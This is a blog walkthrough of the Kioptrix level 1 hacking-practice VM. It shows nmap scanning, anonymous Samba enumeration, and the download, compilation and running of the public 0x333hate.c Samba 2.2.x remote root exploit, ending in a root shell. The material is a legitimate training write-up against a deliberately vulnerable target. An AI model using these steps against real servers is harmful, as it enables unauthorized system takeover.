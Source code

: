 ```yaml
---
layout: post
title: "Kioptrix hacking challenge: Part 1"
date: 2012-07-04 18:10:26 -0400
comments: true
categories: boot2root
redirect_from: /2012/07/kioptrix-hacking-challenge-part-1.html
---
```


Kioptrix is another set of virtual machines that are intended to be hacked into. As of this writing there are currently four Kioptrix challenges. Each one increases in difficulty and is a good start for someone new to penetration testing. Towards the end of last April, I started playing around with it and documented the steps to exploit it. Kioptrix 1 is geared towards the beginner, and is one of the easiest challenges out there.

<!--more-->

The Kioptrix virtual machines can be downloaded from [http://www.kioptrix.com/blog/?page_id=135](http://www.kioptrix.com/blog/?page_id=135)

I identified the IP address of the virtual machine using netdiscover and launched a port scan against it.

```
# nmap -sS -T4 -A 192.168.1.144
 
Starting Nmap 5.61TEST4 ( http://nmap.org ) at 2012-04-23 20:26 EDT
Nmap scan report for 192.168.1.144
Host is up (0.00048s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE              VERSION
22/tcp   open  ssh                  OpenSSH 2.9p2 (protocol 1.99)
|_sshv1: Server supports SSHv1
| ssh-hostkey: 1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
| 1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
80/tcp   open  http                 Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods: Potentially risky methods: TRACE
|_See http://nmap.org/nsedoc/scripts/http-methods.html
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp  open  rpcbind (rpcbind V2) 2 (rpc #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1           1024/tcp  status
|_  100024  1           1024/udp  status
139/tcp  open  netbios-ssn          Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/http             Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-09-26 09:32:06
|_Not valid after:  2010-09-26 09:32:06
| http-methods: Potentially risky methods: TRACE
|_See http://nmap.org/nsedoc/scripts/http-methods.html
|_sslv2: server still supports SSLv2
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
1024/tcp open  status (status V1)   1 (rpc #100024)
MAC Address: 00:0C:29:46:F7:8C (VMware)
Device type: general purpose
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:kernel:2.4
OS details: Linux 2.4.9 - 2.4.18 (likely embedded)
Network Distance: 1 hop
 
Host script results:
|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown>
 
TRACEROUTE
HOP RTT     ADDRESS
1   0.48 ms 192.168.1.144
```

nmap found a webserver, so I pointed my browser to http://192.168.1.144 and found an Apache test page. I fired up nikto and DirBuster in the background to scan the website for any vulnerabilities and hidden directories. In the meantime, I decided to look into the open Samba port.
nmap didn't print out the Samba version, so I decided to probe it a bit. I used nmblookup and smbclient

```
# nmblookup -A 192.168.1.144
Looking up status of 192.168.1.144
 KIOPTRIX        <00> -         B <ACTIVE> 
 KIOPTRIX        <03> -         B <ACTIVE> 
 KIOPTRIX        <20> -         B <ACTIVE> 
 ..__MSBROWSE__. <01> - <GROUP> B <ACTIVE> 
 MYGROUP         <00> - <GROUP> B <ACTIVE> 
 MYGROUP         <1d> -         B <ACTIVE> 
 MYGROUP         <1e> - <GROUP> B <ACTIVE> 
 
 MAC Address = 00-00-00-00-00-00
 
# smbclient -L //KIOPTRIX -I 192.168.1.144
Enter root's password: 
Anonymous login successful
Domain=[MYGROUP] OS=[Unix] Server=[Samba 2.2.1a]
 
 Sharename       Type      Comment
 ---------       ----      -------
cli_rpc_pipe_open_noauth: rpc_pipe_bind for pipe \srvsvc failed with error ERRnosupport
 IPC$            IPC       IPC Service (Samba Server)
 ADMIN$          Disk      IPC Service (Samba Server)
Anonymous login successful
Domain=[MYGROUP] OS=[Unix] Server=[Samba 2.2.1a]
 
 Server               Comment
 ---------            -------
 KIOPTRIX             Samba Server
 
 Workgroup            Master
 ---------            -------
 MYGROUP              KIOPTRIX
```

I was able to get a listing of the shares without a password. Using smbclient I identified that the server was running Samba 2.2.1a. I headed over to Google and searched for Samba 2.2.1 exploits. This revealed a SANS [paper](http://pen-testing.sans.org/resources/papers/gcih/0x333hatec-samba-remote-root-exploit-102967) about a Samba exploit called 0x333hate.c. A Google search for 0x333hate.c yielded a copy of the exploit, hosted at [SecurityFocus.com](http://downloads.securityfocus.com/vulnerabilities/exploits/0x333hate.c)

I downloaded the file and compiled it.

```
# wget http://downloads.securityfocus.com/vulnerabilities/exploits/0x333hate.c
--2012-04-23 22:34:02--  http://downloads.securityfocus.com/vulnerabilities/exploits/0x333hate.c
Resolving downloads.securityfocus.com... 143.127.139.111
Connecting to downloads.securityfocus.com|143.127.139.111|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6514 (6.4K) [text/plain]
Saving to: `0x333hate.c'
 
100%[=================================================================================================================>] 6,514       --.-K/s   in 0.1s    
 
2012-04-23 22:34:03 (62.5 KB/s) - `0x333hate.c' saved [6514/6514]
 
 
# gcc 0x333hate.c 
0x333hate.c: In function ‘usage’:
0x333hate.c:91: warning: incompatible implicit declaration of built-in function ‘exit’
0x333hate.c: In function ‘exploit’:
0x333hate.c:126: warning: incompatible implicit declaration of built-in function ‘exit’
0x333hate.c:130: warning: incompatible implicit declaration of built-in function ‘exit’
0x333hate.c:134: warning: incompatible implicit declaration of built-in function ‘exit’
0x333hate.c:139: warning: incompatible implicit declaration of built-in function ‘exit’
0x333hate.c:142: warning: incompatible implicit declaration of built-in function ‘exit’
0x333hate.c: In function ‘owned’:
0x333hate.c:201: warning: incompatible implicit declaration of built-in function ‘exit’
0x333hate.c:210: warning: incompatible implicit declaration of built-in function ‘exit’
0x333hate.c:220: warning: incompatible implicit declaration of built-in function ‘exit’
0x333hate.c: In function ‘main’:
0x333hate.c:252: warning: format ‘%x’ expects type ‘unsigned int’, but argument 3 has type ‘long unsigned int’
```

Some warning messages, but no errors. I ran the exploit to see what would happen:

```
# ./a.out 
 
 [~] 0x333hate => samba 2.2.x remote root exploit [~]
 [~]        coded by c0wboy ~ www.0x333.org       [~]
 
 Usage : ./a.out [-t target] [-p port] [-h]
 
  -t target to attack
  -p samba port (default 139)
  -h display this help
```

Pretty simple, takes only one argument which is the IP address of the target. I tried it again and it gave me a root shell instantly:

```
# ./a.out -t 192.168.1.144
 
 [~] 0x333hate => samba 2.2.x remote root exploit [~]
 [~]        coded by c0wboy ~ www.0x333.org       [~]
 
 [-] connecting to 192.168.1.144:139
 [-] stating bruteforce
 
 [-] testing 0xbfffffff
 [-] testing 0xbffffdff
 [-] testing 0xbffffbff
 [-] testing 0xbffff9ff
 [-] testing 0xbffff7ff
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
uid=0(root) gid=0(root) groups=99(nobody)
```

At this point the game was over. I explored the system a little bit and found a congratulatory message from the creator:

```
cat mbox
From root  Sat Sep 26 11:42:10 2009
Return-Path: <root@kioptix.level1>
Received: (from root@localhost)
 by kioptix.level1 (8.11.6/8.11.6) id n8QFgAZ01831
 for root@kioptix.level1; Sat, 26 Sep 2009 11:42:10 -0400
Date: Sat, 26 Sep 2009 11:42:10 -0400
From: root <root@kioptix.level1>
Message-Id: <200909261542.n8QFgAZ01831@kioptix.level1>
To: root@kioptix.level1
Subject: About Level 2
Status: RO
 
If you are reading this, you got root. Congratulations.
Level 2 won't be as easy...
```

This challenge was basically just a scan and exploit against a vulnerable target. Although that seems easy, that's exactly how a lot of servers are compromised. It's not too difficult to find servers running certain vulnerable services and exploits that target them. 

 
